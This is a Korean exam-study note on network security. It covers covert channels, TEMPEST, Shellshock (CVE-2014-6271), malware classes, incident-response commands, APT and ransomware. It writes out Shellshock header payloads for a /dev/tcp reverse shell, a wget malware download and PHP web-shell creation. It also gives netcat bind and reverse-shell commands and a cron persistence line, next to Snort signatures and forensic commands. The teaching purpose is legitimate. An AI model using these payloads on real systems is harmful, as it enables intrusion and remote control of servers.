|---|---|
| 공급망 공격 표준 RFC·NIST? | **NIST SP 800-161 Rev.1** |
| C-SCRM 풀이? | Cybersecurity Supply Chain Risk Management |
| 랜섬웨어 = ? | *데이터 암호화 + 금전 요구* |
| 감염 경로 4? | 사이트 / 메일 / **P2P** / SNS |
| 예방 3? | 패치 / 실행 주의 / **백업** |
| 사실상 복구 수단? | **백업** |

---

## 📖 에피소드 12 — 정보 유출: 은닉 채널 + 방사 + TEMPEST

### 장면. 논리적 vs 물리적 유출

> 정보 유출은 *논리적 (소프트웨어 통신)* 과 *물리적 (전기 신호)* 의 2 차원.

### 은닉 채널 (Covert Channel) — 논리적

> **은닉 채널** = 엔티티가 *허가되지 않는 방식*으로 정보를 받는 방법. *보안 메커니즘에 통제되지 않는 정보 흐름*. *시스템 보안 정책 명백 위반*.

### 은닉 채널 대응 4

| 대응 | 내용 |
|---|---|
| 로그 분석 | — |
| HIDS 탐지 | Host-based IDS |
| 통신 대역폭 *엄격 제한* | — |
| 시스템 자원 분석 | — |

### 방사 (Emanations) — 물리적

> **방사** = 컴퓨터·장치로부터 *방출되는 전기적 신호*를 가로채 *원래 데이터를 알아냄*.

### 방사 대응 3 — 시험 1순위

| 대응 | 의미 |
|---|---|
| **TEMPEST** | NSA 의 *전자기 방사 보안 표준* |
| **백색 잡음** | 광대역 잡음으로 *원 신호 마스킹* |
| **통제 구역** | 물리적 *접근 제한 영역* |

### TEMPEST — NSA 표준

> **TEMPEST** = *NSA (미국 국가안보국)* 의 전자기 방사 보안 표준. **NACSIM 5000** 시리즈가 후속 표준. 1972년 (2007년 declassified).

### 은닉 채널 ↔ 방사 — 시험 함정

| | 은닉 채널 | 방사 |
|---|---|---|
| 차원 | **논리적** (S/W 통신) | **물리적** (전기 신호) |
| 대응 | 로그·HIDS·대역폭·자원 분석 | **TEMPEST · 백색 잡음 · 통제 구역** |

### 시험 함정

| 함정 | 정답 |
|---|---|
| 은닉 채널 ↔ 방사? | 논리 ↔ 물리 |
| TEMPEST 의 운영? | **NSA** (미국 국가안보국) |
| TEMPEST 후속 표준? | **NACSIM 5000** 시리즈 |
| 방사 대응 3? | **TEMPEST · 백색 잡음 · 통제 구역** |

---

## 📖 에피소드 13 — Shell Shock: CVE-2014-6271 + CGI + 3 명령문

### 장면. bash 함수 선언문의 함정

> **Shell Shock** = bash *함수 선언 기능* `() { ` 의 끝에 *임의 명령어 추가 삽입* 시 → bash 가 *함수문 처리를 멈추지 않고 추가 명령어 실행*. **CVE-2014-6271**. CVSS v2 base score **10.0** (Impact: complete).

### 명명의 유래

> *OpenSSL 하트블리드 (하트블리드) 취약점 이후* 취약점에 이름을 짓는 유행 → **쉘쇼크 (Shell Shock)** 명명.

### CGI 가 가장 큰 영향

> **CGI (Common Gateway Interface)** = 웹서버 → 응용 프로그램 *전달 처리 인터페이스*. Shell Shock 취약점에 의해 *영향 받는 가장 대표적* 프로그램.

### Shell Shock 명령문 3 유형 — 시험 1순위

| 유형 | 동작 | 예시 |
|---|---|---|
| **리버스 쉘 연결** | User-Agent 헤더 + `() { : ; }` + 리버스 쉘 명령 | `User-Agent:() { : ; }; /bin/bash > /dev/tcp/[목적지 IP]/[목적지 Port] 0<&1` |
| **악성코드 다운로드** | Accept-Encoding 헤더 + `() { : ; }` + 악성코드 다운로드 명령 | `Accept-Encoding:() { : ; }; /bin/bash -c "/usr/bin/wget -O /tmp/xyz http://[유포지]/malware; ..."` |
| **웹쉘 생성** | User-Agent 헤더 + `() { : ; }` + 웹쉘 생성 명령 | `User-Agent:() { : ; }; echo "<?$cmd=...; if(...) print shell_exec($cmd); ?>" ?../htmp/x.php` |

### 공격 패턴의 핵심 — `() { : ; };`

> 모든 유형의 *공통 패턴*. *함수 선언 직후 임의 명령*. **Snort 시그너처: `content:"() {"; http_header;`** 로 차단.

### Shell Shock 대응 3

| 대응 | 내용 |
|---|---|
| **버전 업데이트** | 취약 bash → 최신 버전 |
| **CGI 비활성화** | 사용 안 하면 *서비스 중지·삭제* |
| **Snort 시그너처** | `content:"() {"; http_header;` 등록 차단 |

### 외우는 방법 — *() { : ; };* + 헤더 + 명령

> *함수 선언문 + 세미콜론 + 임의 명령*. *User-Agent / Accept-Encoding* 헤더가 *주 공격 벡터*.

### 시험 함정

| 함정 | 정답 |
|---|---|
| Shell Shock CVE? | **CVE-2014-6271** |
| Shell Shock CVSS? | **v2 base score 10.0 (Impact: complete)** |
| 명명 유래? | *하트블리드 이후* 취약점 명명 유행 |
| 가장 큰 영향 프로그램? | **CGI** |
| 공격 패턴 핵심? | **`() { : ; };`** |
| 명령문 3 유형? | 리버스 쉘 / 악성코드 다운로드 / **웹쉘 생성** |
| Snort 시그너처? | **`content:"() {"; http_header;`** |
| 대응 3? | 버전 업데이트 / CGI 비활성화 / Snort |

---

## 📑 종합 비교 (에피소드 1~13 정리)

시험 직전 *한눈에* 보는 view.

| 영역 | 핵심 |
|---|---|
| **Bind Shell** | *서버 listen* — 공격자가 접속 |
| **Reverse Shell** | *공격자 listen* — 서버가 접속 (방화벽 outbound 회피) |
| **nc 옵션** | `-lvp` (listen) / `-e /bin/bash` (커넥터 쉘 실행) |
| **cron 지속성** | `30 2 * * * root /usr/bin/nc ... -e /bin/bash` |
| **익스플로잇** | 취약점 + **쉘 코드** |
| **난독화 4** | 분할 / 10진수 / **16진수 (URL 인코딩)** / 기타 (XOR·BASE64) |
| **리버스 엔지니어링** | 공격·방어 *양면* |
| **악성코드 진입 3** | 다운로더 (외부) / 드롭퍼 (내부) / **인젝터 (메모리)** |
| **악성코드 행위 3** | 키로거 (정보) / 백도어 (통제) / **루트킷 (은닉)** |
| **루트킷 변조** | `/bin/ps` · `/bin/netstat` |
| **정적 분석** | 디버거·디스어셈블러 / 빠름 / *신종 ❌* |
| **동적 분석 (= 행위 분석)** | 샌드박스·가상머신 / 느림 / *신종 ✅* |
| **패킹** | 압축 + 암호화 |
| **리버스 쉘 분석 명령** | `/var/secure` → `.bash_history` → `/etc/passwd` → `/etc/crontab` → **`netstat -antp` → PID → `ps -ef`** |
| **루트킷 탐지** | **`chkrootkit`** |
| **무결성 검증** | **`rpm -V`** — **S/5/T (크기/MD5/시간)** |
| **immutable 속성** | **`lsattr`** 조회 / **`chattr -i`** 제거 |
| **루트킷 환경 프로세스** | **`lsof`** |
| **DBD 3 사이트** | **경유지 (Stepping Stone) → 중계지 (Relay) → 유포지 (Distribution)** |
| **DBD 분석 도구** | **IECacheView · TCPView · Process Explorer** |
| **DBD 난독화 복호** | `unescape()` |
| **APT 풀이** | **Advanced Persistent Threat** |
| **APT 8 단계** | 초기 정찰 → 초기 침입 → 거점 → 권한 → 내부 정찰 → 내부 침투 → 지속성 → 목표 |
| **APT 침투 3** | 스피어 피싱 / **워터링 홀** / USB |
| **사이버 킬 체인** | **Lockheed Martin (2011)** + 6 방어 동작 |
| **6 방어 동작** | 탐지·거부·교란·약화·기만·파괴 |
| **MITRE ATT&CK** | **MITRE Corporation** + 14 Tactics |
| **공급망 공격 표준** | **NIST SP 800-161 Rev.1 (C-SCRM)** |
| **랜섬웨어 경로 4** | 사이트 / 메일 / **P2P** / SNS |
| **랜섬웨어 예방 3** | 패치 / 실행 주의 / **백업 (사실상 복구)** |
| **은닉 채널** | 논리적 — 로그·HIDS·대역폭·자원 분석 |
| **방사 (Emanations)** | 물리적 — *전기 신호* |
| **TEMPEST** | **NSA 표준** — NACSIM 5000 후속 |
| **방사 대응 3** | TEMPEST / 백색 잡음 / 통제 구역 |
| **Shell Shock** | **CVE-2014-6271** + CVSS v2 **10.0** |
| **Shell Shock 영향** | **CGI** 가장 큼 |
| **Shell Shock 패턴** | **`() { : ; };`** + 헤더 |
| **Shell Shock 명령문 3** | 리버스 쉘 / 악성코드 다운로드 / 웹쉘 생성 |
| **Shell Shock 대응** | bash 업데이트 / CGI 비활성화 / **Snort 시그너처** |

---

## 🗺️ 마인드맵 1 — 쉘 획득 결정 트리 (Bind vs Reverse + cron)

```mermaid
graph TD
  Q[원격 쉘 획득]
  Q --> Q1{누가 listen?}

  Q1 -- 서버 --> B[Bind Shell]
  B --> B1[리스너 - 서버:<br/>nc /bin/bash -lvp 80]
  B --> B2[커넥터 - 공격자:<br/>nc 리스너IP 리스너Port]
  B --> B3[방화벽 inbound 허용 환경]

  Q1 -- 공격자 --> R[Reverse Shell]
  R --> R1[리스너 - 공격자:<br/>nc -lvp 80]
  R --> R2[커넥터 - 서버:<br/>nc 리스너IP 리스너Port -e /bin/bash]
  R --> R3[방화벽 outbound 허용 환경<br/>효과적]

  R --> CR[cron 지속성]
  CR --> CR1[/etc/crontab:<br/>30 2 * * * root /usr/bin/nc ... -e /bin/bash]

  style R fill:#fff4d1
  style CR fill:#ffe1e1
```

**읽는 법**: 노랑 = *Reverse 가 더 자주 사용* (방화벽 회피). 빨강 = *cron + Reverse 의 정석 패턴*.

---

## 🗺️ 마인드맵 2 — 악성코드 6 분류 트리



**읽는 법**: 노랑 = *인젝터 (메모리 상주) + 루트킷 (은닉)* 시험 1순위. 녹색 = *동적 = 행위 분석* 별칭.

---

## 🗺️ 마인드맵 3 — 침해사고 분석 명령 매트릭스

```mermaid
graph TD
  I[침해사고 분석]

  I --> R[리버스 쉘 분석]
  R --> R1[/var/secure · /var/messages]
  R --> R2[.bash_history]
  R --> R3[/etc/passwd<br/>UID·GID = 0]
  R --> R4[/etc/crontab]
  R --> R5[netstat -antp - PID]
  R --> R6[ps -ef - 프로세스]

  I --> RK[루트킷 분석]
  RK --> RK1[chkrootkit<br/>변조 확인]
  RK --> RK2[find -mtime -10<br/>최근 변경 파일]
  RK --> RK3[rpm -V<br/>S 크기 · 5 MD5 · T 시간]
  RK --> RK4[lsattr<br/>i 속성 immutable]
  RK --> RK5[chattr -i<br/>속성 제거]
  RK --> RK6[lsof<br/>은닉 프로세스 확인]

  I --> DBD[DBD 분석]
  DBD --> DBD1[IECacheView<br/>IE 캐시]
  DBD --> DBD2[TCPView<br/>TCP 연결]
  DBD --> DBD3[Process Explorer<br/>프로세스 상태]
  DBD --> DBD4[unescape - 16진수 복호]
  DBD --> DBD5[referer 헤더 - 추적]

  style R5 fill:#fff4d1
  style RK3 fill:#fff4d1
  style DBD1 fill:#fff4d1
```

**읽는 법**: 노랑 = *각 시나리오의 핵심 명령*. *netstat → PID → ps* 가 모든 분석의 공통 패턴.

---

## 🗺️ 마인드맵 4 — APT 8 단계 시간선 + 침투 3



**읽는 법**: *외부 (1·2) → 거점 (3·4) → 내부 (5·6) → 영구 (7·8)* 의 *4 단계 4 군집*. *2 단계의 침투 3*이 분기점.

---

## 🗺️ 마인드맵 5 — 사이버 킬 체인 ↔ MITRE ATT&CK 비교



**읽는 법**: 노랑 = *Kill Chain (시간 축 7+6)*. 녹색 = *MITRE ATT&CK (기법 카탈로그 14×수백)*. 두 모델은 *경쟁이 아닌 보완*.

---

## 🗂️ 키워드 클러스터 — 비슷한 이름 모아보기

### 쉘 획득

```
Bind Shell    — 서버 listen, 공격자 접속
                서버: nc /bin/bash -lvp 80
                공격자: nc 리스너IP 리스너Port

Reverse Shell — 공격자 listen, 서버 접속 (방화벽 outbound 회피)
                공격자: nc -lvp 80
                서버: nc 리스너IP 리스너Port -e /bin/bash

cron 지속성:
  30 2 * * * root /usr/bin/nc ... -e /bin/bash
```

### 익스플로잇 + 난독화

```
익스플로잇 = 취약점 + 쉘 코드

난독화 4종:
  분할      — 다수 문자열 변수 + 재조합
  10진수    — 아스키코드 인코딩
  16진수    — % 헥사값 (퍼센트 / URL 인코딩)
  기타      — XOR · BASE64
```

### 악성코드 6 분류

```
진입 3:
  다운로더 — 외부 주소 접속
  드롭퍼   — 내부 데이터
  인젝터   — 메모리 상주 (파일 미생성)

행위 3:
  키로거    — 정보 수집형
  백도어    — 통제형
  루트킷    — 은닉형 (/bin/ps · /bin/netstat 변조)
```

### 악성코드 분석

```
정적 (Static)  — 디버거·디스어셈블러
                 빠름 / 신종 ❌
동적 (Dynamic) — 샌드박스·가상머신 (= 행위 분석)
                 느림 / 신종 ✅

패킹 = 압축 + 암호화 → 분석 회피
언패킹 = 패킹된 파일 풀기
```

### 리버스 쉘 분석 명령

```
/var/secure · /var/messages   — 로그인 로그
.bash_history                 — 명령 이력
/etc/passwd                   — 계정 (UID·GID = 0)
/etc/crontab                  — 주기 작업
netstat -antp | grep [공격자IP] — PID 확인
ps -ef | grep [PID]           — 프로세스 확인
```

### 루트킷 분석 명령

```
chkrootkit              — 루트킷 탐지
find /bin/ -type f -mtime -10
                        — 최근 10일 변경 파일

rpm -qf [파일]          — 파일 → 패키지
rpm -V [패키지]          — 무결성 검증
                          S = 크기 / 5 = MD5 / T = 수정 시간
rpm -Uvh --force         — 강제 재설치

lsattr / chattr -i      — immutable 속성 조회·제거

lsof                    — 은닉 프로세스 확인
```

### DBD 공격

```
3 사이트:
  경유지 (Stepping Stone)   — 처음 접속하는 합법 사이트
  중계지 (Relay)            — 리다이렉트
  유포지 (Distribution)     — 악성코드 배포

분석 도구 (Windows):
  IECacheView      — IE 브라우저 캐시
  TCPView          — TCP 연결
  Process Explorer — 프로세스 상태

기법:
  16진수 난독화 + unescape() 복호
  iframe 폭·높이 0 (숨김)
  referer 헤더 - 경유 추적
```

### APT

```
Advanced Persistent Threat
지능적 + 지속적

8 단계:
  1. 초기 정찰   — 공개 정보
  2. 초기 침입   — 스피어 피싱·워터링 홀·USB
  3. 거점 마련   — 백도어 + 추가 도구
  4. 권한 상승   — 익스플로잇·제로데이
  5. 내부 정찰   — 내부 정보 수집
  6. 내부 침투   — 측면 이동
  7. 지속성 유지 — 레지스트리 조작
  8. 목표 달성   — 정보 유출·시스템 파괴

침투 3:
  스피어 피싱   — 특정인 표적 + 사전 조사 + 위장
  워터링 홀     — 자주 방문 사이트 감염 + 제로데이
  USB          — 물리 매체 동선 방치
```

### Cyber Kill Chain + MITRE ATT&CK

```
Cyber Kill Chain (Lockheed Martin 2011):
  공격 7 단계 (Reconnaissance ~ Actions on Objectives)
  방어 6 동작:
    탐지 / 거부 / 교란 / 약화 / 기만 / 파괴

MITRE ATT&CK (MITRE Corporation 2013~):
  14 Tactics × 수백 Techniques
  Initial Access · Privilege Escalation · Lateral Movement · Exfiltration

Kill Chain = 시간 축
ATT&CK    = 기법 카탈로그
```

### 공급망 공격

```
경로 4:
  빌드/업데이트 인프라 변조
  인증서·개발 계정 유출
  하드웨어·펌웨어 변조
  악성코드 감염 제품 판매

표준: NIST SP 800-161 Rev.1 (C-SCRM)
```

### 랜섬웨어

```
정의: 데이터 암호화 + 금전 요구

경로 4:
  사이트 (방문만으로) / 메일 (스피어 피싱)
  P2P (파일 공유) / SNS (단축 URL)

예방 3:
  최신 패치 (백신 포함)
  실행 주의 (메일·링크·P2P)
  자료 백업 (사실상 복구 수단)
```

### 정보 유출

```
은닉 채널 (Covert Channel) — 논리적
  대응: 로그·HIDS·통신 대역폭 제한·시스템 자원 분석

방사 (Emanations) — 물리적 (전기 신호)
  대응 3:
    TEMPEST     (NSA, NACSIM 5000 후속)
    백색 잡음
    통제 구역
```

### Shell Shock

```
CVE-2014-6271
CVSS v2 base score 10.0 (Impact: complete)

명명 유래: 하트블리드 이후 취약점 명명 유행
영향 가장 큰 프로그램: CGI

공격 패턴: () { : ; };
   + User-Agent / Accept-Encoding 헤더

명령문 3 유형:
  리버스 쉘 연결    — User-Agent + /bin/bash > /dev/tcp
  악성코드 다운로드  — Accept-Encoding + wget
  웹쉘 생성        — User-Agent + echo + shell_exec

대응 3:
  bash 업데이트
  CGI 비활성화
  Snort 시그너처: content:"() {"; http_header;
```

### 헷갈리는 짝 (시험 1순위)

| 짝 | 차이 |
|---|---|
| **Bind ↔ Reverse Shell** | 서버 listen ↔ 공격자 listen |
| **다운로더 ↔ 드롭퍼 ↔ 인젝터** | 외부 ↔ 내부 ↔ **메모리** |
| **키로거 ↔ 백도어 ↔ 루트킷** | 정보 ↔ 통제 ↔ **은닉** |
| **정적 ↔ 동적 분석** | 빠름·신종 X ↔ 느림·신종 O |
| **동적 분석 = ?** | **행위 분석** |
| **rpm -V S/5/T** | 크기 / MD5 / 시간 |
| **경유지 ↔ 중계지 ↔ 유포지** | 처음 접속 ↔ 리다이렉트 ↔ 악성코드 배포 |
| **IECacheView ↔ TCPView ↔ Process Explorer** | 캐시 ↔ TCP 연결 ↔ 프로세스 |
| **APT 외부 정찰 ↔ 내부 정찰** | 1단계 (공개 정보) ↔ 5단계 (탈취 권한) |
| **스피어 피싱 ↔ 워터링 홀 ↔ USB** | 특정인 메일 ↔ 자주 방문 사이트 ↔ 물리 매체 |
| **일반 피싱 ↔ 스피어 피싱** | 불특정 ↔ **특정인** |
| **워터링 홀 ↔ DBD** | 표적성 (특정 그룹) ↔ 불특정 다수 |
| **Kill Chain ↔ MITRE ATT&CK** | 시간 축 (7+6) ↔ 기법 카탈로그 (14) |
| **Lockheed Martin ↔ MITRE Corporation** | Kill Chain ↔ ATT&CK |
| **은닉 채널 ↔ 방사** | 논리 ↔ 물리 |
| **TEMPEST ↔ 백색 잡음 ↔ 통제 구역** | 차폐 표준 ↔ 잡음 마스킹 ↔ 접근 제한 |
| **Shellshock CVE** | **CVE-2014-6271** |
| **Shellshock 영향 가장 큰?** | **CGI** |
| **Snort 시그너처** | **content:"() {"; http_header;** |

---

## 🃏 회상 30문항

> 답을 가린 뒤 자가 채점.

**A. 쉘 획득 + 익스플로잇 + 난독화 (1~6)**
1. Bind Shell ↔ Reverse Shell — 누가 listen?
2. 방화벽이 outbound 만 허용할 때 효과적인 쉘은?
3. cron 으로 지속성 확보하는 정석 패턴은?
4. 익스플로잇 = ? + ?
5. 난독화 4종과 16진수 난독화의 별칭은?
6. 리버스 엔지니어링의 양면성은?

**B. 악성코드 (7~10)**
7. 진입 3 (다운로더·드롭퍼·인젝터) 의 본질 차이는?
8. 행위 3 (키로거·백도어·루트킷) 의 분류는?
9. 정적 ↔ 동적 분석의 속도·신종 탐지 차이와 동적 분석의 별칭은?
10. 루트킷이 변조하는 두 명령어와 패킹의 정의는?

**C. 침해사고 시나리오 (11~17)**
11. 리버스 쉘 분석 핵심 명령 5종은?
12. `useradd -o -u 0 -g 0` 의 의미는?
13. 루트킷 탐지 도구와 무결성 검증 명령은?
14. `rpm -V` 의 S/5/T 의미는?
15. immutable 속성 조회·부여·제거 명령은?
16. DBD 3 사이트의 영문·역할은?
17. DBD 분석 Windows 도구 3종은?

**D. APT + Kill Chain + MITRE (18~23)**
18. APT 풀이와 두 본질 (지능적·지속적) 의 의미는?
19. APT 8 단계 순서는?
20. APT 침투 3 기법과 각 어원·동작은?
21. 사이버 킬 체인 개발 주체와 6 방어 동작은?
22. MITRE ATT&CK 운영 주체와 14 Tactics 핵심 흐름은?
23. Kill Chain ↔ MITRE ATT&CK 의 본질 차이는?

**E. 공급망 + 랜섬웨어 + 정보유출 (24~28)**
24. 공급망 공격 표준 (NIST SP 800-161 Rev.1) 의 풀이 (C-SCRM) 는?
25. 랜섬웨어 감염 경로 4와 예방 3은?
26. 백업이 사실상 복구 수단인 이유는?
27. 은닉 채널 ↔ 방사의 차원 차이는?
28. TEMPEST 의 운영 주체와 후속 표준은?

**F. Shell Shock (29~30)**
29. Shell Shock CVE 와 가장 큰 영향 프로그램은?
30. 명령문 3 유형과 Snort 시그너처는?

---

## ⚠️ 시험 함정 모음

| 함정 | 정답 |
|---|---|
| Bind Shell 리스너? | **서버** |
| Reverse Shell 리스너? | **공격자** |
| outbound 만 허용 시? | **Reverse** |
| cron 지속성 명령? | `30 2 * * * root /usr/bin/nc ... -e /bin/bash` |
| 익스플로잇 = ? | 취약점 + **쉘 코드** |
| 16진수 난독화 별칭? | **퍼센트 / URL 인코딩** |
| 기타 난독화? | XOR · BASE64 |
| 다운로더 vs 드롭퍼? | 외부 ↔ 내부 |
| 인젝터 핵심? | **메모리 상주 (파일 미생성)** |
| 키로거 분류? | 정보 수집형 |
| 백도어 분류? | 통제형 |
| 루트킷 분류? | **은닉형** |
| 루트킷 변조 명령? | **`/bin/ps` · `/bin/netstat`** |
| 정적 분석 도구? | 디버거·디스어셈블러 |
| 동적 분석 별칭? | **행위 분석** |
| 동적 분석 환경? | **샌드박스 · 가상머신** |
| 정적 ↔ 동적 신종? | ❌ ↔ **✅** |
| 패킹? | **압축 + 암호화** |
| 리버스 쉘 분석 — 로그? | **`/var/secure` · `/var/messages`** |
| 리버스 쉘 분석 — 명령 이력? | **`.bash_history`** |
| 리버스 쉘 분석 — 계정? | **`/etc/passwd`** (UID·GID=0) |
| 리버스 쉘 분석 — 네트워크? | **`netstat -antp`** |
| 리버스 쉘 분석 — 프로세스? | **`ps -ef`** |
| `useradd -u 0 -g 0`? | *root 권한 일반 계정* |
| 루트킷 탐지 도구? | **`chkrootkit`** |
| 최근 변경 파일 옵션? | **`-mtime -10`** |
| 무결성 검증 명령? | **`rpm -V`** |
| `rpm -V` S? | *크기* |
| `rpm -V` 5? | **MD5 체크섬** |
| `rpm -V` T? | *수정 시간* |
| immutable 조회? | **`lsattr`** |
| immutable 제거? | **`chattr -i`** |
| 은닉 프로세스 확인? | **`lsof`** |
| DBD 풀이? | **Drive By Download** |
| 처음 접속 사이트? | **경유지 (Stepping Stone)** |
| 리다이렉트 사이트? | **중계지 (Relay)** |
| 악성코드 배포 사이트? | **유포지 (Distribution)** |
| iframe 숨김? | *폭·높이 0* |
| DBD — 캐시 도구? | **IECacheView** |
| DBD — TCP 연결 도구? | **TCPView** |
| DBD — 프로세스 도구? | **Process Explorer** |
| 16진수 복호 함수? | **`unescape()`** |
| 추적 헤더? | **`referer`** |
| APT 풀이? | **Advanced Persistent Threat** |
| APT 두 본질? | 지능적 + 지속적 |
| APT 1 단계? | **초기 정찰** |
| APT 4 단계? | **권한 상승** |
| APT 7 단계? | **지속성 유지** |
| APT 8 단계? | **목표 달성** |
| 외부 정찰 ↔ 내부 정찰? | 1단계 ↔ 5단계 |
| 스피어 피싱 표적? | **특정인** |
| 워터링 홀 어원? | *물웅덩이 (사냥감 대기)* |
| USB 침투? | *물리 매체 동선 방치* |
| Kill Chain 운영? | **Lockheed Martin (2011)** |
| Kill Chain 6 방어? | 탐지·거부·교란·약화·기만·파괴 |
| MITRE ATT&CK 운영? | **MITRE Corporation** |
| Tactics 수? | **14** |
| Kill Chain ↔ ATT&CK? | 시간 축 ↔ 기법 카탈로그 |
| 공급망 NIST? | **SP 800-161 Rev.1** |
| C-SCRM? | Cybersecurity Supply Chain Risk Management |
| 랜섬웨어 = ? | 데이터 암호화 + 금전 요구 |
| 랜섬웨어 경로 4? | 사이트 / 메일 / **P2P** / SNS |
| 랜섬웨어 예방 3? | 패치 / 실행 주의 / **백업** |
| 사실상 복구 수단? | **백업** |
| 은닉 채널 ↔ 방사? | 논리 ↔ 물리 |
| TEMPEST 운영? | **NSA** |
| TEMPEST 후속 표준? | **NACSIM 5000** |
| 방사 대응 3? | TEMPEST · 백색 잡음 · 통제 구역 |
| Shell Shock CVE? | **CVE-2014-6271** |
| Shell Shock CVSS? | **v2 10.0** |
| Shell Shock 명명 유래? | *하트블리드 이후* |
| Shell Shock 영향 가장 큰? | **CGI** |
| Shell Shock 패턴? | **`() { : ; };`** |
| Shell Shock 명령문 3? | 리버스 쉘 / 악성코드 다운로드 / **웹쉘 생성** |
| Snort 시그너처? | **`content:"() {"; http_header;`** |
| Shell Shock 대응 3? | bash 업데이트 / CGI 비활성화 / Snort |

---

## 🔗 정확본 매핑표

| 본 노트 에피소드 | 정확본 § |
|---|---|
| 에피소드 1 (쉘 획득 + cron) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#1. 쉘 획득 — 원격 접속 공격의 출발점\|정확본 §1]] |
| 에피소드 2 (익스플로잇 + 난독화) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#2. 익스플로잇과 난독화\|정확본 §2]] |
| 에피소드 3 (악성코드 6 분류) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#3-1. 악성코드 분류\|정확본 §3-1]] |
| 에피소드 4 (정적 vs 동적 + 패킹) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#3-2. 악성코드 탐지 및 분석\|정확본 §3-2·§3-3]] |
| 에피소드 5 (리버스 쉘 시나리오) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#4-1. 리버스 쉘 공격 시나리오\|정확본 §4-1·§4-2]] |
| 에피소드 6 (루트킷 시나리오) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#4-3. 루트킷 공격 시나리오\|정확본 §4-3·§4-4]] |
| 에피소드 7 (DBD 시나리오) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#4-5. Drive By Download (DBD) 공격 시나리오\|정확본 §4-5·§4-6]] |
| 에피소드 8 (APT 정의 + 8 단계) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#5-1. 정의\|정확본 §5-1·§5-2]] |
| 에피소드 9 (APT 침투 3) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#5-3. APT 주요 침투 기법\|정확본 §5-3]] |
| 에피소드 10 (Kill Chain + MITRE) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#5-4. 사이버 킬 체인 (Cyber Kill Chain)\|정확본 §5-4·§5-5]] |
| 에피소드 11 (공급망 + 랜섬웨어) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#6. 공급망 공격 (Supply Chain Attack)\|정확본 §6·§7]] |
| 에피소드 12 (정보 유출) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#8. 정보 유출 — 은닉 채널과 방사\|정확본 §8]] |
| 에피소드 13 (Shell Shock) | [[cs/information-security/02.network-security/06.remote-access-and-malware-tools#9. Shell Shock 취약점\|정확본 §9]] |

---

## 📅 학습 흐름

```
[1주]   에피소드 1 (Bind ↔ Reverse Shell + cron) — 마인드맵 1 (결정 트리)
[2주]   에피소드 2 (익스플로잇 + 난독화 4) — 16진수 = URL 인코딩 직접 암기
[3주]   에피소드 3·4 (악성코드 6 + 정적/동적 + 패킹) — 마인드맵 2 (분류 트리)
[4주]   에피소드 5 (리버스 쉘 분석) — netstat → PID → ps 패턴 직접 암기
[5주]   에피소드 6 (루트킷 분석) — chkrootkit / rpm -V S/5/T / chattr -i 직접 암기
[6주]   에피소드 7 (DBD 분석) — 경유지·중계지·유포지 + 도구 3 (마인드맵 3)
[7주]   에피소드 8 (APT 8 단계) — 마인드맵 4 (시간선)
[8주]   에피소드 9 (APT 침투 3) — 영문 어원 직접 암기
[9주]   에피소드 10 (Kill Chain 6 + MITRE 14) — 마인드맵 5 (비교)
[10주]  에피소드 11·12 (공급망·랜섬웨어·정보 유출) — TEMPEST + NSA 직접 암기
[11주]  에피소드 13 (Shell Shock) — `() { : ; };` 패턴 + Snort 시그너처 직접 암기
[12주]  회상 30문항 → 틀린 것만 정확본 깊이 학습
[13주]  함정 모음 매일 1회 + 정확본 1회 정독
[14주]  07 단원 (보안 프로토콜) 진입 준비 — 본 단원의 *암호화 대응*이 07 의 *VPN·IPsec·SSL/TLS* 와 직결
```

---

> **다음 단원**: [[cs/information-security/02.network-security/07.security-protocols|07. 보안 프로토콜]] — 본 단원의 *MITM 방어 = SSL/TLS 인증서*가 07 의 핵심. *하트블리드* 가 07 의 *SSL/TLS 취약점*. *Shell Shock 의 명명 유래*가 07 의 *OpenSSL 하트블리드* 와 직결. *암호화로 스니핑·세션 하이재킹 방어*가 07 의 IPsec·VPN.
